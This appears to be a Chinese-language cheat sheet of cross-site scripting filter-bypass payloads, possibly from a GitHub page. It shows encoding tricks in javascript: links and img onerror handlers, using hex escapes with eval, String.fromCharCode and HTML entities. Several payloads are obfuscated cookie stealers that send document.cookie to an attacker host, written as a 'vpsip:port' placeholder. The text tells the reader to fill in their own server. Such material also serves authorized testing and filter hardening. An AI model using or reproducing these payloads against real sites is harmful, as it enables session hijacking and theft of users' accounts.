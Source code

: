 发送cookie,下面这个payload只是举例不要直接用，用的话请填自己的vpsip:port,再进行编码

```
<a href=javascript:eval("\x77\x69\x6e\x64\x6f\x77\x2e\x6c\x6f\x63\x61\x74\x69\x6f\x6e\x2e\x68\x72\x65\x66\x3d\x27\x68\x74\x74\x70\x3a\x2f\x2f\x76\x70\x73\x69\x70\x3a\x70\x6f\x72\x74\x2f\x3f\x63\x6f\x6f\x6b\x69\x65\x3d\x27\x2b\x64\x6f\x63\x75\x6d\x65\x6e\x74\x2e\x63\x6f\x6f\x6b\x69\x65")>xss</a>
```

*利用js的编码函数，但是要使用eval来执行字符串*

```
<a href=javascript:eval(String.fromCharCode(97,108,101,114,116,40,49,41)) >xss</a>
```

发送cookie,下面这个payload只是举例不要直接用，用的话请填自己的vpsip:port,再进行编码

```
<a href=javascript:eval(String.fromCharCode(119,105,110,100,111,119,46,108,111,99,97,116,105,111,110,46,104,114,101,102,61,39,104,116,116,112,58,47,47,118,112,115,105,112,58,112,111,114,116,47,63,99,111,111,107,105,101,61,39,43,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101)) >xss</a>
```

*利用html编码，不需要使用eval来执行*

```
xss=<a href=javascript:&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41; >xss</a>
```

发送cookie,下面这个payload只是举例不要直接用，用的话请填自己的vpsip:port,再进行编码

```
<a href=javascript:&#32;&#119;&#105;&#110;&#100;&#111;&#119;&#46;&#108;&#111;&#99;&#97;&#116;&#105;&#111;&#110;&#46;&#104;&#114;&#101;&#102;&#61;&#39;&#104;&#116;&#116;&#112;&#58;&#47;&#47;&#118;&#112;&#115;&#105;&#112;&#58;&#112;&#111;&#114;&#116;&#47;&#63;&#99;&#111;&#111;&#107;&#105;&#101;&#61;&#39;&#43;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#99;&#111;&#111;&#107;&#105;&#101; >xss</a>
```



**在有一定的过滤前提下，事件的bypass**

事件和属性一样可以利用html编码

```
<img src=x onerror=&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;>
```

发送cookie

```
<img src=x onerror=&#32;&#119;&#105;&#110;&#100;&#111;&#119;&#46;&#108;&#111;&#99;&#97;&#116;&#105;&#111;&#110;&#46;&#104;&#114;&#101;&#102;&#61;&#39;&#104;&#116;&#116;&#112;&#58;&#47;&#47;&#118;&#112;&#115;&#105;&#112;&#58;&#112;&#111;&#114;&#116;&#47;&#63;&#99;&#111;&#111;&#107;&#105;&#101;&#61;&#39;&#43;&#100;&#111;&#99;&#117;&#109;&#101;&#110;&#116;&#46;&#99;&#111;&#111;&#107;&#105;&#101;>
```

利用js的编码函数，和利用js编码可以类比



**一些小tips**
